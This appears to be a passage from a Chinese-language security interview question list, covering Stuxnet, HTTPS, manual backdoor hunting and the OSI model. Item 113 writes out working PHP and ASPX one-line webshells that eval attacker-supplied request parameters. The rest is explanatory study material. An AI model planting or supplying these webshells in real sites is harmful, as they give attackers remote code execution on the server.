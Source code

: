 112.震网病毒的定义？  
指一种蠕虫病毒，是第一个专门定向攻击真实世界中基础（能源）设施的 “蠕虫” 病毒，比如核电站，水坝，国家电网。只要电脑操作员将被病毒感染的 U 盘插入 USB 接口，这种病毒就会在神不知鬼不觉的情况下(不会有任何其他操作要求或者提示出现)取得一些工业用电脑系统的控制权。  
与传统的电脑病毒相比， “震网”病毒不会通过窃取个人隐私信息牟利。无需借助网络连接进行传播。这种病毒可以破坏世界各国的化工、发电和电力传输企业所使用的核心生产控制电脑软件，并且代替其对工厂其他电脑“发号施令”。极具毒性和破坏力。  “震网”代码非常精密，主要有两个功能，一是使伊朗的离心机运行失控，二是掩盖发生故障的情况，  “谎报军情” ，以 “正常运转”记录回传给管理部门，造成决策的误判。

113.常用的一句话木马？  
php 一句话木马：<?php @eval($_POST[value]);?>     
变形： <?php $x=$_GET[‘z’];@eval(“$x;”);?> 
aspx 一句话木马：<%@ Page Language="Jscript"%>  
<%eval(Request.Item["value"])%>  

114.Https 的作用？  
内容加密  建立一个信息安全通道，来保证数据传输的安全；  
身份认证  确认网站的真实性  
数据完整性  防止内容被第三方冒充或者篡改  
HTTPS 和 HTTP 的区别  
https 协议需要到 CA 申请证书。  
http 是超文本传输协议，信息是明文传输；https  则是具有安全性的 ssl 加密传输协议。  
http 和 https 使用的是完全不同的连接方式，用的端口也不一样，前者是 80 ，后者是 443。  
http 的连接很简单，是无状态的；HTTPS 协议是由 SSL+HTTP 协议构建的可进行加密传输、身份认证的网络协议，比 http 协议安全。  

115.手工查找后门木马的小技巧？  
1、首先最需要注意的地方是系统的启动项，可以在  “运行”-输入“msconfig命令”在打开的系统配置实用程序里的启动列表查看，并且服务也要注意一下， 如果对电脑不是太熟悉的童鞋建议使用 360 安全卫士的开机加速功能，来查看有无异常的可以启动项和服务项，因为在后门木马中 99%都会注册自己为系统服务，达到开机自启动的目的，如果发现可疑项直接打开相应的路径，找到程序文件，直接删除并且禁止自启动；  
2、查看系统关键目录 system32 和系统安装目录 Windows 下的文件，xp 系统下两者默认路径分别是 C:\WINDOWS\system32 和 C:\WINDOWS\。然后最新修改的文件中有没有可疑的可执行文件或 dll 文件，这两个地方都是木马最喜欢的藏身的地方了（小提示：一定要设置显示所有的文件的文件夹哦）。  
3、观察网络连接是否存在异常，还有  “运行”-  “cmd”-  “netstat -an”查看有没有可疑或非正常程序的网络连接，如果对电脑不是很熟悉建议大家使用 360的流量监控功能更加直观和方便，尤其注意一下远程连接的端口，如果有类似于8000 等端口就要注意了，8000 是灰鸽子的默认端口，记得有一次自己就在后门木马测试中在网络连接中发现 8000 端口，当然意思不是说只要没有 8000 端口的网络连接就一定安全，因为 8000 端口只是灰鸽子上线的默认端口，并且端口是可以更改的。  
通过以上方法，可以查找到电脑的一些可疑文件，如果确认无疑，就可以手工进行删除了。当然还可以借助杀毒软件的力量。如果你真的中了木马后门，不用慌。 
最好最彻底的方法是重装系统后，在安全模式下，利用最新病毒库的杀软进行查杀。  

116.描述 OSI （开放系统互联基本参考模型）七层结构？  
分层的好处是利用层次结构可以把开放系统的信息交换问题分解到一系列容易控制的软硬件模块－层中，而各层可以根据需要独立进行修改或扩充功能，同时，有利于个不同制造厂家的设备互连，也有利于大家学习、理解数据通讯网络。  
OSI 参考模型中不同层完成不同的功能，各层相互配合通过标准的接口进行通信。  
